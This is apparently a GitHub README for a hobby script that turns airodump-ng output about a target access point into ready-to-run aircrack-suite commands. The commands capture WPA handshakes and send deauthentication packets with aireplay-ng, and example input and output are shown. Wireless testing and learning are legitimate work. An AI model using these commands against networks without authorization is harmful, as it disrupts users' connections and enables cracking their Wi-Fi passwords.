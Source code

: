 ### Read Me
# WiFi aircrack laziness
WiFi aircrack laziness is a lazy ass script to take the output for a given Target from airodump-ng (see output example below) and generate all the necessary aircrack commands for listening for handshakes and doing replays for DeAuthentication. 

The script is designed to take an input from the user which can be typed out or copy and pasted in and if everything goes accordingly and if the inputs is clean meaning nothing anything out of the ordinary it should generate the commands and print them out to the terminal. It also additionally outputs the Mac address or bssid as well as the SSID so that you can visually confirm that it grab them correctly. I would suggest also confirming that the channel is correct in the outputted commands.

As stated before the script is for pure laziness purposes although it might speed up a workflow. I'm using this project to learn stuff so it's far from perfect I'm sure. If you see any issues or have any suggestions feel free to let me know.


## Output from airodump-ng example:

    24:6F:20:41:FA:FA  -77       58      421    0   6  54e  WPA2 CCMP   PSK  1.0 LAB,DISP       The_ssid
## Output of this script example:

    Put in the stuff: <paste the stuff here>
    MAC/BSSID of AP is: 24:6F:20:41:FA:FA
    SSID of AP is: The_ssid
    sudo airodump-ng -w The_ssid --channel 6 --bssid 24:6F:20:41:FA:FA wlx00c0ca961581
    sudo aireplay-ng -0 5 -e The_ssid wlx00c0ca961581


